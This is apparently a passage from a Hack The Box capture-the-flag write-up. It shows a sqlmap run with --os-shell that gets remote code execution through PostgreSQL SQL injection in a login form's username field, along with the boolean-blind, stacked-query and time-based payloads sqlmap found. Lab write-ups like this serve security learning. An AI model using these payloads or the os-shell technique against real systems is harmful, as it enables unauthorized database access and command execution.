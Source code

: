 ```
HTTP/1.1 302 Found
Date: Sat, 13 Apr 2024 11:46:22 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.3.14
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: dashboard.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

Furthermore, we utilized `sqlmap` to achieve Remote Code Execution (`RCE`) using the `--os-shell` option. We successfully executed the `id` command to confirm the exploit.

```
┌──(kali㉿kali)-[~/Documents/ctf/htb/toolbox]
└─$ sqlmap -r login.txt --os-shell --force-ssl --level 3  
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.8.2#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:23:15 /2024-04-10/

[15:23:15] [INFO] parsing HTTP request from 'login.txt'
[15:23:15] [INFO] resuming back-end DBMS 'postgresql' 
[15:23:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin%' AND 3415=(SELECT (CASE WHEN (3415=3415) THEN 3415 ELSE (SELECT 5860 UNION SELECT 8064) END))-- XnrJ&password=admin

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin%';SELECT PG_SLEEP(5)--&password=admin

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind (comment)
    Payload: username=admin%' AND 2662=(SELECT 2662 FROM PG_SLEEP(5))--&password=admin
---
[15:23:17] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.3.14
```